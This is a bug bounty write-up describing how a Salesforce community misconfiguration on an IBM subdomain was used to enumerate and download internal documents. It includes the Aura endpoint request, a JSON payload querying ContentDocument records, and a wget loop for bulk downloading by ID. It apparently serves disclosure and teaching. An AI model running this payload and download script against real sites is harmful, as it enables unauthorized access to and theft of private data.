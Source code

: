 ```yaml
---
title: "How I was able to access IBM internal documents"
classes: wide
header:
  teaser: /assets/images/crackmes/crit.PNG
ribbon: DodgerBlue
description: "How to exploit Salesforce misconfiguration in the wild"
categories:
  - bugbounty
toc: true
---
```


Hi, today I will share how I was able to access internal data of https://weathercommunity.ibm.com using salesforce misconfiguration.

This write-up will depends n this great blog: [ Salesforce](https://web.archive.org/web/20210125200757/https://www.enumerated.de/salesforce)

so please read it first then read this write-up.

After I read this blog, I wanted to exploit it in the wild so I now I wanted to see the subdomains which point to on of the following CNAMEs:

*.force.com

*.secure.force.com

*live.siteforce.com

I used this great tool https://github.com/yghonem14/cngo to get CNMAEs of all the websites that have program 
on hackerone through https://chaos.projectdiscovery.io/

I found this subdomain **weathercommunity.ibm.com** which pointing out to: **thercommunity.ibm.com.00de0000000avgcma2.live.siteforce.com**

I found an endpoint like:

```
POST /s/sfsites/aura?r=2&applauncher.CommunityLogo.getCommunityName=1&applauncher.CommunityLogo.getLogoURL=1&applauncher.EmployeeLoginLink.getEmployeeLoginUrl=1&applauncher.EmployeeLoginLink.getIsAllowInternalUserLoginEnabled=1&applauncher.SocialLogin.getAuthProviders=1&applauncher.SocialLogin.getSamlProviders=1&applauncher.SocialLogin.handleIdp=1&other.LightningLoginForm.getForgotPasswordUrl=1&other.LightningLoginForm.getIsSelfRegistrationEnabled=1&other.LightningLoginForm.getIsUsernamePasswordEnabled=1&other.LightningLoginForm.getSelfRegistrationUrl=1&ui-communities-components-aura-components-forceCommunity-richText.RichText.getParsedRichTextValue=2&ui-communities-components-aura-components-forceCommunity-seoAssistant.SeoAssistant.getSeoLanguageData=1 HTTP/1.1
```
     
![](/assets/images/crackme/0690h000007Aly3AAC.png)

then I sent this POST request to the Repeater and changed the ***Message*** parameter value to:
```
{"actions":[{"id":"123;a","descriptor":"serviceComponent://ui.force.components.controllers.lists.selectableListDataProvider.SelectableListDataProviderController/ACTION$getItems","callingDescriptor":"UNKNOWN","params":{"entityNameOrId":"MARKER","layoutType":"FULL","pageSize":100,"currentPage":0,"useTimeout":false,"getCount":false,"enableRowActions":false}}]}

```
Replacing the ***MARKER*** string with:

***ContentDocument***

![](/assets/images/crackmes/ibm1.png)

See that there are more than 900 ID.
I extracted the ID value which started with 069 and made a simple bash script to download them one by one
through this endpoint /sfc/servlet.shepherd/document/download/$ID

https://weathercommunity.ibm.com/sfc/servlet.shepherd/document/download/ID

Example: 

https://weathercommunity.ibm.com/sfc/servlet.shepherd/document/download/0690h0000060wuHAAQ

```
while read i
do wget --no-check-certificate "https://weathercommunity.ibm.com/sfc/servlet.shepherd/document/download/$i"
done < $1

```

Sample of the internal images:

![]()

![](/assets/images/crackmes/0690h000007Aly3AAC.png)


***Final word:**
you will not understand anything if you did not read the blog [ Salesforce](https://web.archive.org/web/20210125200757/https://www.enumerated.de/salesforce) first as he explained everything in it.
